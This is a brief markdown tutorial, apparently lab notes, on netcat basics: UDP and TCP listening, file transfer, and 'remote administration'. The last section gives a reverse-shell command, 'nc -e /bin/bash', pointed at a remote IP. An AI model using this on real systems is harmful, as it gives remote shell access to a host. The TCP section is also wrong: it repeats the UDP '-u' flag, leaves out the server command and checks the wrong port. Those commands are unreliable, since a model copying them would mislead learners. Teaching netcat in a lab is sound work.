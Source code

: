 ```yaml
---
description: NetCat Basics
---
```


# Task 1

### 1. Connecting & Listening To UDP Port

* On Client Side Run 

```text
netcat -u <target-ip> 2468
```

![](assets/21.png)

* On Server Side Run

```text
netcat -u -l -p 2468
```

![](assets/22.png)

* We can observe the network connection using netstat

```text
netstat | grep 2468
```

![](assets/23.png)

### 2. Connecting & Listening To TCP Port

* On Client Side Run 

```text
netcat -u <target-ip> 1357
```

![](assets/11.png)

* On Server Side Run

![](assets/12.png)

* We can observe the network connection using netstat

```text
netstat | grep 2468
```

![](assets/13.png)

### 3. Transferring Files with Netcat

* On client side run

```text
nc <target_ip> <port> < file_name
```

![](assets/1.png)

* On Server Side Run

```text
nc -l -p <port> file_name
```

![](assets/2.png)

* Can view the file on the target

![](assets/3.png)

### 4. Remote Administration with netcat

* On Client side run

```text
nc -nv <target_ip> <port> -e /bin/bash
```

![](.gitbook/assets/15.png)

* On Server Side

```text
nc -nvlp <port>
```

![](.gitbook/assets/16.png)

* Run os commands

![](.gitbook/assets/17.png)




